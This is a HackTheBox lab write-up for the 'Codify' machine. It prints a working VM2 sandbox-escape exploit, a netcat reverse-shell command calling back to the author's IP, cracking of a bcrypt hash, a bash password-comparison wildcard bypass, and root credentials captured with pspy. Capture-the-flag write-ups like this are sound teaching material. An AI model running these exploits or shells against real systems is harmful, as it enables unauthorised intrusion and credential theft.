







# HackTheBox
------------------------------------
### IP: 10.129.73.66
### Name: Codify
### Difficulty: Easy
--------------------------------------------


I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Codify]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.129.73.66 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-08 10:00 CDT
Warning: 10.129.73.66 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.73.66
Host is up (0.097s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
|_  256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.69 seconds
```

Lets add codify.htb to `/etc/hosts`

Looking at the site on port 80 we find a service to run node.js in a sandbox:



Looking at the `/limitations` link we can see which modules are blacklisted:



Taking a look at the About Us page we see the sandbox is using VM2:



Looking for VM2 exploits we find this sandbox escape: https://www.exploit-db.com/exploits/51898

Looking at the exploit we find we can run system commands:

```javascript
const { VM } = require("vm2");
const vm = new VM();

const command = 'pwd'; // Change to the desired command

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}

try {
    const handler = {
        getPrototypeOf(target) {
            (function stack() {
                new Error().stack;
                stack();
            })();
        }
    };

    const proxiedErr = new Proxy({}, handler);

    throw proxiedErr;
} catch ({ constructor: c }) {
    const childProcess = c.constructor('return process')().mainModule.require('child_process');
    childProcess.execSync('${command}');
}
`;

console.log(vm.run(code));
```

Lets give it a shot:



Nice that worked. We have code execution here. Lets update the code to spawn a reverse shell for us.

### Exploitation

I can update the `command` variable to:

```javascript
const command = 'busybox nc 10.10.14.136 443 -e /bin/bash';
```

Which catches me a shell back in my listener:

```
┌──(ryan㉿kali)-[~/HTB/Codify]
└─$ nc -lnvp 443                        
listening on [any] 443 ...
connect to [10.10.14.136] from (UNKNOWN) [10.129.73.66] 49994
id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
whoami
svc
hostname
codify
```

Browsing around the site we find a tickets.db file which contains joshua's password hash:

```
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

Lets try cracking this with hashcat:

```
┌──(ryan㉿kali)-[~/HTB/Codify]
└─$ hashcat joshua_hash /usr/share/wordlists/rockyou.txt -m 3200 --show
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
```

Cool, lets use `su` to switch users to joshua:

```
svc@codify:/var/www/contact$ su joshua
Password: 
joshua@codify:/var/www/contact$ whoami
joshua
```

We can now grab the user.txt flag:



### Privilege Escalation


Running `sudo -l` to see what joshua can run with elevated permissions we find:

```
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

Taking a look at the script:

```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

This script is interesting because the variables are not quoted, and the operator `==` is being used. This may be vulnerable and equate to `true` if something like a wildcard operator is passed in as the password.


Lets try it:

```
joshua@codify:/opt/scripts$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

Cool, that worked, but unfortunately we don't have access to the backup created in `/var/backups/mysql`

```
joshua@codify:/opt/scripts$ ls /var/backups/mysql
joshua@codify:/opt/scripts$ ls -la /var/backups/mysql
ls: cannot access '/var/backups/mysql/.': Permission denied
```

Lets establish another shell as joshua via SSH, load pspy, and see if we can spy on this process as its executed.

First we'll transfer pspy64 and make it executable:

```
joshua@codify:/tmp$ wget 10.10.14.136/pspy64
--2024-07-08 16:08:40--  http://10.10.14.136/pspy64
Connecting to 10.10.14.136:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                          100%[====================================================>]   2.96M  2.63MB/s    in 1.1s    

2024-07-08 16:08:41 (2.63 MB/s) - ‘pspy64’ saved [3104768/3104768]

joshua@codify:/tmp$ chmod +x pspy64 
joshua@codify:/tmp$ ./pspy64 
```

Once pspy is running we can execute the script again, and capture the root password in pspy:



```
root:kljh12k3jhaskjh12kjh3
```

We can use this to `su -` and grab the root flag:



Thanks for following along!

-Ryan

---------------------------------------

